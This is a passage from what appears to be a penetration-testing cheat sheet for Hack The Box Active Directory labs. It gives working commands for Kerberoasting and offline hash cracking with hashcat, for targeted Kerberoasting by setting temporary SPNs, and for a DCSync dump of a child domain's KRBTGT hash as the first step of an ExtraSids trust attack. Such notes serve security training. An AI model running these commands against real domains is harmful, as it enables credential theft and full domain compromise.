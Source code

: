 **4.** Or request just the TGS ticket for a specific account. 

```bash
GetUserSPNs.py -dc-ip $ip $domain/$username -request-user $userrequested -outputfile file_tgs
# -outputfile:  to write the TGS tickets to a file 
# Example:
# GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
```


**5.** Cracking the Ticket Offline with Hashcat.

```bash
hashcat -m 13100 file_tgs /usr/share/wordlists/rockyou.txt 
```



#### targetedKerberoast

[targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast) is a Python script that can, like many others (e.g. GetUserSPNs.py), print "kerberoast" hashes for user accounts that have a SPN set. This tool brings the following additional feature: for each user without SPNs, it tries to set one (abuse of a write permission on the servicePrincipalName attribute), print the "kerberoast" hash, and delete the temporary SPN set for that operation. This is called targeted Kerberoasting. This tool can be used against all users of a domain, or supplied in a list, or one user supplied in the CLI.


```
./targetedKerberoast.py -d htb.local -u $user -p $password -v

# Troubleshooting:
# Sometimes it's necessary to sync the attacker machine date with the domain controller. In kali:
sudo ntpdate -u $DomainControolerip
```




## 👀 Attacking Domain Trusts # 1: Child -> Parent Trusts

### 🏰 ExtraSids Attack 

Requirements for performing the attack:

- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain
- The SID of the Enterprise Admins group of the root domain

We have complete control over the child domain, which would be: LOGISTICS.INLANEFREIGHT.LOCAL.

#### Step 1: getting the KRBTGT hash for the child domain

We will perform a DCSync attack with secretsdump.py:

```shell-session
secretsdump.py $targetedDomain/$UserWithAdminPriv@$TargetedIP -just-dc-user $NetbiosNameofDomain/krbtgt

# Example:
# secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
# Enter password: HTB_@cademy_stdnt_admin!
```
